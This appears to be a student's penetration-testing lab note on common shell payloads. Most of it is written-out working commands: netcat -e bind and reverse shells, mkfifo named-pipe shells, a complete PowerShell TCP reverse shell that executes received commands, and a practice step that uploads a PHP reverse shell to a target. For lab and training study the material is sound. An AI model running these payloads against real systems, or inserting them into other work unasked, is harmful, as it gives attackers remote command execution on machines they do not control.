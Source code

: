 ## **Common Shell Payloads**
 In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

	`nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell on the target. Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target. This is however seen as being very insecure, and it is not included in most version of netcat. On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

	mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

![[Pasted image 20240818163208.png]]


A very similar command can be used to send a netcat reverse shell:

	`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![[Pasted image 20240818163443.png]]


When targeting a modern version of Windows Server, we can use the following Powershell reverse shell:
	`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace `<IP>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
![[Pasted image 20240818163651.png]]

## **Practice & Examples**
1) **Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell // Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.**
